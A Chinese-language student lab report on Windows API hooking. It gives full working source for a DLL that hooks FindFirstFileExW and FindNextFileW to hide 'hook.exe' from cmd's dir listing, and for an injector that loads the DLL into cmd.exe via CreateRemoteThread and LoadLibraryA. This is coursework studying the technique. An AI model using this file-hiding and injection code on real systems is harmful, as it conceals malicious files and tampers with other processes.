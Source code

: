 # 期末作业

---

## 实验目标

通过注入DLL方式实现对dir函数功能的改写和修改。
更改dir时调用的`FindFirstFile`，每次出现"hook.exe"便抹掉此结果，使得系统控制台的dir命令看不到目录下的hook.exe

---

## 实验过程

1. 确定hook函数
   * 查询资料文档了解到，windows系统在dir时调用的函数为`FindFirstFileExW`和`FindNextFileW`
   * dir显示目录下文件时调用了一次`FindFirstFileExW`和多次`FindNextFileW`，所以使用这两个函数进行hook
   * 通过dll注入操作对这两个函数进行监控，检测到调用时，执行后续操作阻碍dir的正常运行。

	```c++
	HANDLE WINAPI FindFirstFile(
		LPCSTR             lpFileName,//  查找的文件类型。例如:.txt,.ini,.cpp等后缀
		LPWIN32_FIND_DATA  lpFindFileData,//得到当前所杳找文件的一些属性，包括文件名，文件大小创建时间等
	);//根据文件名查找文件，函数执行成功返回一个搜索句柄

	BOOL FindNextFile(
	HANDLE hFindFile,                            //FindFirstFile返回的HANDLE
	LPWIN32_FIND_DATA lpFindFileData            //所杳找文件的一些属性
	);//成功返回非零，失败返回零

	typedef struct _WIN32_FIND_DATA 
	{
	DWORD dwFileAttributes; //文件属性
	FILETIME ftCreationTime; // 文件创建时间
	FILETIME ftLastAccessTime; // 文件最后一次访问时间
	FILETIME ftLastWriteTime; // 文件最后一次修改时间
	DWORD nFileSizeHigh; // 文件长度高32位
	DWORD nFileSizeLow; // 文件长度低32位
	DWORD dwReserved0; // 系统保留
	DWORD dwReserved1; // 系统保留
	TCHAR cFileName[ MAX_PATH ]; // 长文件名（最多可达 255 个字符的长文件名），带句点和扩展名
	TCHAR cAlternateFileName[ 14 ]; //8.3格式文件名（句点前最多有8个字符，而扩展名最多可以有3个字符）
	} WIN32_FIND_DATA, *PWIN32_FIND_DATA;
	```

2. 编写dllmain.cpp，其中hook的函数需更改为`FindFirstFileExW`和`FindNextFileW`

	```c
	#include <windows.h>

	#define FILENAME "hook.exe"
	LONG IATHook(
		__in_opt void* pImageBase,
		__in_opt const char* pszImportDllName,
		__in const char* pszRoutineName,
		__in void* pFakeRoutine,
		__out HANDLE* phHook
	);
	LONG UnIATHook(__in HANDLE hHook);
	void* GetIATHookOrign(__in HANDLE hHook);
	typedef HANDLE(__stdcall *LPFN_FindFirstFileExW)(
		LPCSTR             lpFileName,
		FINDEX_INFO_LEVELS fInfoLevelId,
		LPVOID             lpFindFileData,
		FINDEX_SEARCH_OPS  fSearchOp,
		LPVOID             lpSearchFilter,
		DWORD              dwAdditionalFlags
		);
	typedef BOOL(__stdcall *LPFN_FindNextFileW)(
		HANDLE             hFindFile,
		LPWIN32_FIND_DATAW lpFindFileData
		);
	HANDLE g_hHook_FindFirstFileExW = NULL;
	HANDLE g_hHook_FindNextFileW = NULL;
	HANDLE __stdcall Fake_FindFirstFileExW(
		LPCSTR             lpFileName,
		FINDEX_INFO_LEVELS fInfoLevelId,
		LPVOID             lpFindFileData,
		FINDEX_SEARCH_OPS  fSearchOp,
		LPVOID             lpSearchFilter,
		DWORD              dwAdditionalFlags
	){
		LPFN_FindFirstFileExW fnOrigin = (LPFN_FindFirstFileExW)GetIATHookOrign(g_hHook_FindFirstFileExW);
		HANDLE hFindFile = fnOrigin(lpFileName, fInfoLevelId, lpFindFileData, fSearchOp, lpSearchFilter, dwAdditionalFlags);
		while (0 == wcscmp(((WIN32_FIND_DATA*)lpFindFileData)->cFileName, TEXT(FILENAME))) {
			FindNextFileW(hFindFile, (LPWIN32_FIND_DATA)lpFindFileData);
		}
		return hFindFile;
	}

	BOOL __stdcall Fake_FindNextFileW(
		HANDLE             hFindFile,
		LPWIN32_FIND_DATAW lpFindFileData
	) {
		LPFN_FindNextFileW fnOrigin = (LPFN_FindNextFileW)GetIATHookOrign(g_hHook_FindNextFileW);
		BOOL rv = fnOrigin(hFindFile, lpFindFileData);
		if (0 == wcscmp(((WIN32_FIND_DATA*)lpFindFileData)->cFileName, TEXT(FILENAME))) {
			rv = fnOrigin(hFindFile, lpFindFileData);
		}
		return rv;
	}

	BOOL WINAPI DllMain(HINSTANCE hinstDll, DWORD dwReason, LPVOID lpvRevered) {
		switch (dwReason) {
		case DLL_PROCESS_ATTACH:
			IATHook(
				GetModuleHandle(NULL),
				"kernel32.dll",
				"FindFirstFileExW",
				Fake_FindFirstFileExW,
				&g_hHook_FindFirstFileExW
			);
			IATHook(
				GetModuleHandle(NULL),
				"kernel32.dll",
				"FindNextFileW",
				Fake_FindNextFileW,
				&g_hHook_FindNextFileW
			);
			break;
		case DLL_PROCESS_DETACH:
			UnIATHook(g_hHook_FindFirstFileExW);
			UnIATHook(g_hHook_FindNextFileW);
			break;
		}
		return TRUE;
	}
	```

3. 将.cpp文件编译生成为dll文件HookFindFileW.dll,将其放入c盘下（相同目录即可，为了方便检索选择C盘）
   * 原理同上次实验。

4. 编写Inject.cpp，将注入的进程修改为cmd.exe

```c
#include <windows.h>
#include <stdio.h>
#include <tlhelp32.h>

int main() {
	char szDllName[] = "C:\\HookFindFileW.dll";
	char szExeName[] = "cmd.exe";

	/* Step 1 */
	PROCESSENTRY32 ProcessEntry = {};
	ProcessEntry.dwSize = sizeof(PROCESSENTRY32);
	HANDLE hProcessSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
	bool bRet = Process32First(hProcessSnap, &ProcessEntry);
	DWORD dwProcessId = 0;
	while (bRet) {
		if (strcmp(szExeName, ProcessEntry.szExeFile) == 0) {
			dwProcessId = ProcessEntry.th32ProcessID;
			break;
		}
		bRet = Process32Next(hProcessSnap, &ProcessEntry);
	}
	if (0 == dwProcessId) {
		return 1;
	}

	/* Step 2 */
	HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, dwProcessId);
	if (0 == hProcess) {
		return 1;
	}

	/* Step 3 */
	size_t length = strlen(szDllName) + 1;
	char * pszDllFile = (char *)VirtualAllocEx(hProcess, NULL, length, MEM_COMMIT, PAGE_READWRITE);
	if (0 == pszDllFile) {
		return 1;
	}

	/* Step 4 */
	if (!WriteProcessMemory(hProcess, (PVOID)pszDllFile, (PVOID)szDllName, length, NULL)) {
		return 1;
	}

	/* Step 5 */
	PTHREAD_START_ROUTINE pfnThreadRtn = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle("kernel32"), "LoadLibraryA");
	if (0 == pfnThreadRtn) {
		return 1;
	}

	/* Step 6 */
	HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, pfnThreadRtn, (PVOID)pszDllFile, 0, NULL);
	if (0 == hThread) {
		return 1;
	}

	/* Step 7 */
	WaitForSingleObject(hThread, INFINITE);
    printf("远程线程执行完毕!\n");
	VirtualFreeEx(hProcess, (PVOID)pszDllFile, 0, MEM_RELEASE);
	CloseHandle(hThread);
	CloseHandle(hProcess);

	return 0;
}
```

* 实验结果截图如下
  * 首先测试dir本身功能，在根目录下执行dir命令，可以顺利列举出目录下的所有内容
  <img src="image/img1.png" />
  * 运行注入程序Inject.exe
  * 根据实验原理，此时由于开始对`FindFirstFileExW`和`FindNextFileW`函数进行监测，通过注入语句的方式修改执行内容，再次运行dir命令时应无法显示hook.exe
  <img src="image/img2.png" />
  * 实验成功

---

## 实验总结

实验中通过文档学习了解了Hook API的工作方式和实现原理，实际编写了相关程序，实现了对程序功能的修改。
本次实验通过Hook函数实现了对程序中接口调用的检测，进而修改其执行内容，已达到对软件行为进行篡改的目的。
在软件开发过程中，应当注意对函数、接口的封装，注意保护程序不被修改。

---

## 实验环境

* 虚拟机windows7环境
* 32位cmd

---

## 参考资料

1.[**利用FindFirstFile和FindNextFile查找文件或遍历文件夹**](https://blog.csdn.net/milanleon/article/details/18222197)

2.[**Windows API| Microsoft Docs**](https://docs.microsoft.com/en-us/previous-versions/aa914391(v%3dmsdn.10))

3.[**injectAllTheThings**](https://github.com/fdiskyou/injectAllTheThings)

4.**[iathook](https://github.com/tinysec/iathook)**